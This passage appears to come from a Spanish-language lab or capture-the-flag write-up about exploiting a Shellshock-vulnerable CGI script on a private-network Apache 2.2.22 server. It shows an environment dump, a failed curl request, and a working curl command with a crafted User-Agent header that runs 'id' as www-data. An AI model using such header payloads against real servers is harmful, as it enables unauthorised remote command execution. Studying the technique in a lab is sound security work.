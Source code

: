 ```null
HTTP_USER_AGENT=curl/7.88.1
SERVER_PORT=80
HTTP_HOST=172.24.0.2
DOCUMENT_ROOT=/home/spanishdancer/content
SCRIPT_FILENAME=/usr/lib/cgi-bin/stats
REQUEST_URI=/cgi-bin/stats/
SCRIPT_NAME=/cgi-bin/stats
PATH_INFO=/
REMOTE_PORT=52066
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/usr/lib/cgi-bin
SERVER_ADMIN=webmaster@localhost
PATH_TRANSLATED=/home/spanishdancer/content/index.html
HTTP_ACCEPT=*/*
REMOTE_ADDR=172.24.0.1
SHLVL=1
SERVER_NAME=172.24.0.2
SERVER_SOFTWARE=Apache/2.2.22 (Debian)
QUERY_STRING=
SERVER_ADDR=172.24.0.2
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
_=/usr/bin/env
</pre>
</pre>
```

Pero recibo un ```Internal Server Error```

```null
proxychains curl -s -X GET 172.24.0.2/cgi-bin/stats/ -H "User-Agent: () { :; }; /usr/bin/id" | html2text
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
****** Internal Server Error ******
The server encountered an internal error or misconfiguration and was unable to
complete your request.
Please contact the server administrator, webmaster@localhost and inform them of
the time the error occurred, and anything you might have done that may have
caused the error.
More information about this error may be available in the server error log.
===============================================================================
     Apache/2.2.22 (Debian) Server at 172.24.0.2 Port 80
```

Con introducir un ```echo``` al principio vale

```null
proxychains curl -s -X GET 172.24.0.2/cgi-bin/stats/ -H "User-Agent: () { :; }; echo; /usr/bin/id" | html2text
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
